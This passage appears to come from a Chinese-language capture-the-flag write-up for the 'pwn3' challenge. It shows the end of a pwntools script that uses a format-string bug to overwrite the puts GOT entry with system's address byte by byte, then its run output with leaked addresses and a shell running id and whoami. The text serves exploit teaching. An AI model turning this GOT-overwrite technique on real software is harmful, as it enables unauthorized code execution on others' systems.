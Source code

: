 ```
	payload = '%' + str(num) + 'c%10$hhn'
	payload = payload.ljust(12, 'A') 
	put(pr, name, payload + p32(address))
	get(pr, name, 0)

foo('n', got_puts, system_addr)
foo('i', got_puts+1, system_addr>>8)
foo('b', got_puts+2, system_addr>>16)
foo('/', got_puts+3, system_addr>>24)

# system("/bin/sh")
dir(pr)
pr.interactive()

```

运行：
​    

```
mask@mask-virtual-machine:~/format_pwn/CCTF$ python exp.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[*] '/home/mask/format_pwn/CCTF/pwn3'
Arch: i386-32-little
RELRO:Partial RELRO
Stack:No canary found
NX:   NX enabled
PIE:  No PIE (0x8048000)
[*] '/home/mask/format_pwn/CCTF/libc.so'
Arch: i386-32-little
RELRO:Partial RELRO
Stack:Canary found
NX:   NX enabled
PIE:  PIE enabled
[+] Starting local process './pwn3': pid 2269
plt_puts= 0x8048510
got_puts= 0x804a028
puts_addr= 0xb7e68ca0
system_addr= 0xb7e43da0
[*] Switching to interactive mode
$ id
uid=1000(mask) gid=1000(mask) 组=1000(mask),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ whoami
mask
$  

```